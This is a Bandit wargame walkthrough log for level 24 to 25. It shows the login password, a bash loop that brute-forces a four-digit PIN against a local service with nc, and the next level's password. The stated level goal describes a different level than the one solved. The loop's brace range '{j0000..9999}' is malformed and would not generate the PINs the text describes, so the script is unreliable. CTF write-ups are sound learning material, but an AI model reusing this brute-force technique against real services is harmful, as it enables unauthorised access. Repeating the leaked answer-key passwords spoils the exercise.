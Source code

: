 # Bandit walkthrough log [24 -> 25]

- Login

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

- Level Goal

 Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

- Solution

  Make a temporary directory in /tmp

```
mkdir /tmp/bandit24_temp
```

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/63f33e1d-ffe5-4887-9d78-0df6a1c3b2c4)

and make a script file with

```
vi temp.sh
```

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/d22ad0d5-2ddc-413f-9c40-df1c3f588538)

```
#!/bin/bash

for i in {j0000..9999}
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done
```

and set permission to 

```
chmod u+x temp.sh
```

then run the file and connect to 30002 port as level goal says !

```
./temp.sh | nc localhost 30002 | grep -v "Wrong"
```

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/f4932c99-8328-4f78-b44c-bb47c4647558)

This code means that 

run temp.sh, and this output goes to 'nc localhost 30002' and then the output of 'nc' command goes to "grep" which means outputs the results except for the word "Wrong".

Then we can see a password for the next level !

```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

